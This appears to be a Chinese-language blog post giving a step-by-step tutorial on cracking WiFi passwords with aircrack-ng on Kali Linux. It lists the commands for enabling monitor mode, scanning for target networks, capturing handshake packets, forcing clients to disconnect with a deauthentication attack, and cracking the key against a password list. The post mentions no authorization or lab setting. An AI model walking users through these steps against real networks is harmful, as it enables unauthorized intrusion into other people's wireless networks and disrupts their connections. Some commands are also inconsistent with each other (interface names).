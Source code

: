 ```yaml
---
layout: post
title: Aircrack破解wifi密码
---
```

<img src="/images/wifi.jpg" class="fit image"> 
  
## 实验过程
### 破解准备 
  * kali系统笔记本
  * 无线网卡模块
  * 安装aircrack-ng包
### 确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作。
  如果没有开启，输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启 
 <center>
  <img src="/images/thumbs/wlan0.png" width="520" height="320" />
 </center>
                                                               
### 开启监听
```
root@kali:~$ airmon-ng start wlan0
```
<img src="/images/0.9.jpg" width="520" height="320" />

### 扫描目标wifi
 ```
 root@kali:~$ airodump-ng wlan0mon
 ```
<img src="/images/thumbs/mubiao.jpg" width="520" height="320" />   

### 开始抓握手包
 ```
 root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 
 ```
 1. ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 2. -w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 3. -c后面跟频道CH，如这里的6  
 
### 强制客户端重连
 ```
aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 ```
  <img src="/images/thumbs/attack.jpg" width="520" height="320" />
 + -0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 + -a :表示AP的Mac地址
 + -c ：表示客户端的Mac地址
 + interface：网卡
 
### 使用密码本破解
 ```
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
 ```
  <img src="/images/thumbs/ben.jpg" width="520" height="320" />
 + -w是指定我的密码本

